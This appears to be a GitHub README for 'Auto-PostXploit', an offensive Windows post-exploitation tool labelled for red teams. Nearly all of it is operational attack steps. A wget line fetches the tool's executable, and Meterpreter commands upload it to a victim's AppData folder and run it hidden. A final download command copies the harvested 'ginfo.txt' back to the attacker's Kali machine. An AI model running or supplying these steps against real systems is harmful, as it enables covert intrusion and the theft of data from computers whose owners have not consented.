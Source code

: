 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :


  - wget https://raw.githubusercontent.com/BehzaDMagzer/Auto-PostXploit/master/Auto-PostXploit.exe
 


## Usage :

  
   - meterpreter > upload %path%/Auto-PostXploit.exe C:/Users/*USETNAME*/AppData
  
   - meterpreter > execute -H -f C:/Users/%USERNAME%/AppData/Auto-PostXploit.exe
  
  <i style="color:red;">[If Auto-PostXploit.exe Not In Process]</i>
  
   - meterpreter > download C:/Users/%USERNAME%/AppData/ginfo.txt /root/Desktop
  
   - root@kali:~# cat /root/Desktop/ginfo.txt
